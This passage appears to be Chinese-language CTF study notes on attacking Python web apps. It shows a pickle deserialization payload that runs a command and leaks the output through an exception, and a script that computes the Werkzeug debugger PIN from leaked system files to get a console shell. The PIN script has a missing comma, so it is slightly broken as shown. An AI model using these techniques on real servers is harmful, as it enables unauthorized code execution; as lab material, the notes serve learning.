

## 通过报错回显

当可以命令执行，但是无回显且机器不出网时，可以通过报错回显。以一个pickle反序列化的题目为例

```python
class Email():
email = "admin@admin.com"

def __reduce__(self):
    return (exec,("raise Exception(__import__('os').popen('id').read())",))
```

python中exec相当于php的eval，可以用于在当前进程中执行python代码。
这里主动抛出错误，错误内容是要获取的值，从而在报错信息中得到flag

## 计算pin码进行RCE

`/console`路由输入pin码

flask计算pin码的逻辑在`myEnv/lib/python3.12/site-packages/werkzeug/debug/__init__.py`的`get_pin_and_cookie_name`函数中，可以先把这个文件读出来做计算，防止版本差异

1. 服务器运行flask所登录的用户名。 通过读取/etc/passwd获得
2. module name **一般不变**就是flask.app
3. `getattr(app, "__name__", app.__class__.__name__)`。python该值一般为Flask值**一般不变**
4. flask库下app.py的绝对路径。通过报错信息就会泄露该值。
5. mac地址的十进制数。通过文件/sys/class/net/eth0/address获得

```php
echo hexdec(str_replace(':','','1e:eb:d7:36:97:1e'));
```

6. 机器的id。
   linux（二者之一）
   /etc/machine-id或/proc/sys/kernel/random/boot_i
   +/proc/self/cgroup的/后的部分（如果有）
   docker
   /proc/self/cgroup：
   pin码计算脚本

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'flaskweb'  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '170380142167213',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'  # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
print(rv)
```

得到pin码之后在报错页面或`/console`路由


点击shell图标(当鼠标浮于任何一行文字时会出现)
输入pin码

得到shell

最好用os.popen
